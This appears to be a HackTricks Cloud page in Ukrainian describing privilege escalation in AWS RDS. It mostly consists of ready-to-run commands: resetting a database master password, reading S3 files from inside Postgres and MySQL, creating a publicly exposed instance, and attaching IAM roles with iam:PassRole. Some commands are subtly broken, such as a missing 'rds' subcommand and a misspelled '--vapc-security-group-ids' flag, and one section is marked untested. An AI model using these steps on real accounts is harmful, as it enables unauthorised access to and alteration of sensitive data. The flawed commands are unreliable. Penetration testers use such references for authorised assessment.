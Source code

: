 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Служба реляційних баз даних

Для отримання додаткової інформації про RDS дивіться:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

З цією дозволом зловмисник може **змінити пароль майстер-користувача** та вхід до бази даних:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Вам потрібно буде **зв'язатися з базою даних** (зазвичай вони доступні лише з внутрішніх мереж).

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), користувач з цим дозволом може підключитися до екземпляра БД.

### Зловживання дозволами ролі IAM RDS

#### Postgresql (Aurora)

> [!TIP]
> Якщо виконуючи **`SELECT datname FROM pg_database;`** ви знайдете базу даних під назвою **`rdsadmin`**, ви знаєте, що ви всередині **AWS postgresql бази даних**.

Спочатку ви можете перевірити, чи використовувалася ця база даних для доступу до будь-якої іншої служби AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знайдете щось на зразок **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (є й інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете побачити, чи **кластер має прикріплену IAM роль** у полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших сервісів AWS**. На основі **імені ролі** (або якщо ви можете отримати **дозволи** ролі) ви могли б **вгадати**, який додатковий доступ має база даних.

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі AWS облікові дані**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.

#### Mysql (Aurora)

> [!TIP]
> Всередині mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і є користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.

Всередині mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних підготовлена для доступу до даних S3.

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи має кластер будь-яку **асоційовану роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в межах екземпляра.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.\
Зверніть увагу, що деякі БД вимагають додаткових налаштувань, таких як Mysql, який потребує вказати роль ARN у групах параметрів.

### `rds:CreateDBInstance`

Тільки з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує і має прикріплену **IAM роль**. Він не зможе змінити пароль майстер-користувача, але може мати можливість виставити новий екземпляр бази даних в інтернет:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Зловмисник з правами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленою вказаною роллю**. Зловмисник може потім потенційно **отримати доступ до чутливих даних** або змінити дані в екземплярі.

> [!WARNING]
> Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Профіль повинен існувати у вашому обліковому записі.
> - Профіль повинен мати IAM роль, яку Amazon EC2 має право приймати.
> - Ім'я профілю екземпляра та пов'язане ім'я IAM ролі повинні починатися з префікса `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **доступ до чутливих даних** або змінити дані в межах екземпляра.

> [!WARNING]
> Екземпляр БД повинен бути поза кластером для цього
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

{{#include ../../../banners/hacktricks-training.md}}
